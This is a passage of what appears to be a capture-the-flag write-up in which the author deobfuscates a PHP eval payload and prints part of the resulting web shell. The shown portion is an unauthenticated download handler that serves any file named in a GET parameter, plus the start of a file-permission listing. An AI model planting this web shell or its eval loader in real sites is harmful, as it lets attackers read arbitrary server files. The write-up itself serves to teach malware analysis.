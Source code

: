 ```php
$bhrTeZXazQ = "?>$bhrTeZXazQ";
eval( $bhrTeZXazQ );
?>
```

```php
$bhrTeZXazQ = "?>$bhrTeZXazQ";
echo($bhrTeZXazQ);
?>
```

Now we can just run it using the PHP interpreter and see what it says.

```
php extracted.php
```
This shows us the code below, which ... is very long, so I'll summarize up here. The code is definitely a web shell, and it also contains our flag as a comment - `HTB{W0w_ROt_A_DaY}`.

```php
?><?php

if (isset($_GET['download'])) {
        $file = $_GET['download'];
        if (file_exists($file)) {
            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($file).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($file));
            readfile($file);
            exit;
        }
}

?>

<html>
<!-- Latest compiled and minified CSS -->
<link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css">

<!-- jQuery library -->
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.2/jquery.min.js"></script>

<!-- Latest compiled JavaScript -->
<script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>

<div class="container">


<?php

function printPerms($file) {
        $mode = fileperms($file);
        if( $mode & 0x1000 ) { $type='p'; }
        else if( $mode & 0x2000 ) { $type='c'; }
        else if( $mode & 0x4000 ) { $type='d'; }
        else if( $mode & 0x6000 ) { $type='b'; }
        else if( $mode & 0x8000 ) { $type='-'; }
        else if( $mode & 0xA000 ) { $type='l'; }
        else if( $mode & 0xC000 ) { $type='s'; }
        else $type='u';
        $owner["read"] = ($mode & 00400) ? 'r' : '-';
        $owner["write"] = ($mode & 00200) ? 'w' : '-';
```